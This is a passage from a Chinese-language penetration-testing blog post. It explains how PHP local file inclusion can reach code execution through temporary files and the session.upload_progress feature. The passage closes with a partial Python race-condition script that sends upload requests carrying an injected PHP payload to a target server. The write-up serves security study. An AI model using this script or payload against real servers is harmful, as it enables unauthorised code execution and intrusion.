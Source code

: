 根据前文给出的临时文件生命周期，我们上传的文件会在执行文件包含前被写入临时文件中；文件包含时我们借助Windows的通配符特性，在临时文件名未知的情况下成功包含，执行任意代码。

说句题外话，这种上传文件的同时利用临时文件的操作，我在另一篇文章《[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)》中也利用过，但是有的新人朋友还是很难理解这个过程：

[![image.png](https://www.leavesongs.com/media/attachment/2021/11/01/77f02128-e595-457e-8c6f-f8fa783eac4d.c09fdd68253b.png)](https://www.leavesongs.com/media/attachment/2021/11/01/77f02128-e595-457e-8c6f-f8fa783eac4d.png)

这确实是一个比较需要从程序员思维转换到黑客思维的过程，很多人最难理解的地方为什么明明看似是两个操作（文件上传+文件包含），却在一个请求中执行了，如果有这个疑问，那么还是需要再继续理解理解整个流程。

## [0x04 `session.upload_progress`与Session文件包含](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x04-sessionupload_progresssession)

上述的两个方法，其实都没有解决本篇文章遇到的问题，毕竟Docker环境即不存在phpinfo也不存在Windows特性。

第三个方法也已经广为流传，PHP中可以通过session progress功能实现临时文件的写入。这种利用方式需要满足下面几个条件：

- 目标环境开启了`session.upload_progress.enable`选项
- 发送一个文件上传请求，其中包含一个文件表单和一个名字是`PHP_SESSION_UPLOAD_PROGRESS`的字段
- 请求的Cookie中包含Session ID

这个方法的原理是，PHP在开启了`session.upload_progress.enable`后（在包括Docker的大部分环境下默认是开启的），将会把用户上传文件的信息保存在Session中，而PHP的Session默认是保存在文件里的。

所以当攻击者发送满足上述条件的数据包时，就等于能够控制Session文件内容。

我们可以尝试发送满足上述条件的数据包来测试一下，但会发现虽然我们可以让PHP开启Session，从而在/tmp目录下遗留下Session文件，但这个文件内容是空的。

原因是，PHP中还有另外一个配置项`session.upload_progress.cleanup`，默认开启。在这个选项开启时，PHP会在上传请求被读取完成后自动清理掉这个Session，如果我们尝试把这个选项关闭，就可以读取到Session文件的内容了：

[![image.png](https://www.leavesongs.com/media/attachment/2021/11/01/f328427d-cb91-4e7c-924c-0dacb8e34e8d.dd2cfc9ada9e.png)](https://www.leavesongs.com/media/attachment/2021/11/01/f328427d-cb91-4e7c-924c-0dacb8e34e8d.png)

> 注意的是，如果我们只上传一个文件，这里也是不会遗留下Session文件的，所以表单里必须有两个以上的文件上传。

所以，默认情况下，我们需要在Session文件被清理前利用它，这也会用到条件竞争（Race Condition）。

因为这里的Session文件名是可控的，所以相比于0x02的条件竞争，这个会简单很多。我写了一个小脚本来利用，几乎没有失败过：

```
import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait

target = 'http://192.168.1.162:8080/index.php'
session = requests.session()
flag = 'helloworld'


def upload(e: threading.Event):
    files = [
        ('file', ('load.png', b'a' * 40960, 'image/png')),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': rf'''<?php file_put_contents('/tmp/success', '<?=phpinfo()?>'); echo('{flag}'); ?>'''}

    while not e.is_set():
        requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )


def write(e: threading.Event):
```